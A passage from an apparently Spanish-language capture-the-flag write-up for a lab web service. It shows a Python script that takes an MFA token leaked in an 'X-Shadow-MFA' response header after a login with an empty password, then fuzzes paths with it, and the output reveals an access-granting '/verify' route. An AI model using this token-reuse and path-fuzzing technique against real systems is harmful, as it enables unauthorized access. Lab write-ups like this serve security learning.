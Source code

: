 Como vemos en las cabeceras, cuando estamos logeados aparece `X-Shadow-MFA`, con un valor (en mi caso) `382592` que sería el token. Luego de probar un rato con el token, se me ocurre realizar fuzzing con el mismo pero especificando el token por POST, y como todas las rutas tienen código de estado 403 lo hice con un script (ya que las herramientas no me funcionaban):

```python
import requests
import sys
username = 'v4u1tgx9'
def main(token):
    try:
        with open(sys.argv[1], "r") as w:
            for path in w:
                if 'login' in path:
                    path += 'aaaaa'
                path = path.strip()
                main_url = f"http://192.168.56.20:8080/{path}"
                data = {
                    "username": f"{username}",
                    "token": f"{token}"
                }
                r = requests.post(main_url, data=data)
                if r.status_code != 403:
                    print(f"Path encontrado: {path}\n\nResponse:")
                    print(r.text)
    except KeyboardInterrupt:
        print("\n\n[!] Saliendo...")
        sys.exit(1)
def token():
    main_url = 'http://192.168.56.20:8080/login'
    data = {
        "username": "v4u1tgx9",
        "password": ""
    }
    r = requests.post(main_url, data=data)
    token = r.headers['X-Shadow-MFA']
    return token
if __name__ == '__main__':
    token = token()
    main(token)
```

el script se encarga de obtener el token y luego buscar la ruta en la que usar el token:

```css
❯ python3 fuzz.py /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
Path encontrado: verify

Response:
Acceso concedido. Servicio activo.

[!] Saliendo...
❯ 
```
